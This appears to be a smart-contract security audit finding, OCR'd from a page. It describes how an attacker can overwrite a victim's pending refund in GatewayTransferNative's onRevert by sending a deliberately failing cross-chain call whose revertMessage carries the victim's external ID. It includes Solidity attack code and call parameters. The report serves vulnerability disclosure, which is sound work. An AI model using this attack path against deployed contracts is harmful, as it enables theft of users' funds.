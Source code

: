 ### Summary

The `GatewayTransferNative::onRevert` function allows an attacker to overwrite legitimate, pending refunds. This is because `GatewayTransferNative` used RevertMessage to do accounting of refunds. However, the `revertMessage` should be validated.

### Root Cause

The `onRevert` function does not validate whether a `RefundInfo` already exists for a given `externalId` before creating a new one. It blindly overwrites the storage slot.

### Internal Pre-conditions

None.

### External Pre-conditions

None.

### Attack Path
1. Attacker monitors for a legitimate user's transaction to fail, causing `onAbort` to be called. A `RefundInfo` is stored with the key `VICTIM_EXTERNAL_ID`. The contract now holds, for example, 1000e6 zUSDC that is meant for the victim in `refundInfo`.

2. The attacker initiates a cross-chain transaction that is designed to fail and trigger `GatewayTransferNatice::onRevert.`

He can make any contract on destination evm chain as follows
```solidity
contract AttackerContract{
    constructor(){

    }
    function onCall ( MessageContext calldata context,
        address zrc20,
        uint256 amount,
        bytes calldata message
    ) external override onlyGateway {
        // always revert
        revert();
    }
}

```
This can be done by calling `GatewayZEVM::withdrawAndCall` specifying the following details:

```solidity
function withdrawAndCall(
        bytes memory receiver, // attackerContract
        uint256 amount, // 1
        address zrc20,// zUSDC
        bytes calldata message,
        CallOptions calldata callOptions,
        //CallOptions({
        //        isArbitraryCall: false,
        //        gasLimit: 100_000
        //    }),
        RevertOptions calldata revertOptions 
        // RevertOptions({
        //     revertAddress: address(GatewayTransferNatie)
        //     callOnRevert: true,
        //     abortAddress: address(GatewayTransferNative)
        //     revertMessage: bytes.concat(VICTIM_EXTERNAL_ID, bytes32(uint256(123456789)),
        //     onRevertGasLimit: 100_000
        // })
    )
```